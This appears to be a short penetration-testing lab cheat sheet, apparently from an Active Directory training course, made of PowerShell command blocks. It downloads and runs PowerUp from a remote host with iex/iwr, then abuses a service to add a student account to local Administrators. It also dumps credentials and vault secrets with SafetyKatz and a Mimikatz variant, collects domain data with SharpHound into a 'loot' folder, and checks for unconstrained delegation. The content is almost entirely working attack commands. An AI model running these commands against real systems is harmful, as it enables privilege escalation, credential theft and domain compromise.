```powershell
Import-Module .\PowerUp.ps1
iex(iwr 'http://172.16.100.48/PowerUp.ps1' -useb)

Invoke-AllChecks
Get-ServiceUnquoted -Verbose
Get-ModifiableServiceFile -Verbose

Get-ModifiableService -Verbose

help  Invoke-ServiceAbuse

Invoke-ServiceAbuse -Name SNMPTRAP -UserName "dcorp\student548" -Verbose

net1 localgroup Administrators
```

```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe -args sekurlsa::evasive-keys exit
```

```powershell
. C:\Users\Public\Invoke-MimiEx-vault.ps1
```

> In a privileged shell

 ```powershell
C:\Users\Public\Loader.exe -Path C:\Users\Public\\SharpHound.exe -args --collectionmethods Group,GPOLocalGroup,Session,Trusts,ACL,Container,ObjectProps,SPNTargets,CertServices --excludedcs --zipfilename shout
```

> Copy over to A:\loot

Unconstrained delegation?
```powershell
Get-DomainComputer -UnConstrained
```